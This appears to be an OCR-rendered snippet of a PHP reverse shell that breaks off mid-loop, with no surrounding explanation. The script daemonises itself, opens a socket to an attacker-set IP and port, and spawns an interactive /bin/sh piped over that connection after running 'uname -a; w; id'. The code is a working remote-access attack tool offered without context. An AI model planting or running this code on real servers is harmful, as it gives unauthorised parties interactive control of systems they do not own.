 ```php
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0
	// Daemonise ourself if possible to avoid zombies later
	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		if ($pid) {
			exit(0);  // Parent exits
		}
		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}
		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}
	// Change to a safe directory
	chdir("/");
	// Remove any umask we inherited
	umask(0);
	// Do the reverse shell...
	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}
	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	$process = proc_open($shell, $descriptorspec, $pipes);
	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}
	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);
	printit("Successfully opened reverse shell to $ip:$port");
	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}
		// Check for end of STDOUT
		if (feof($pipes[1])) {
```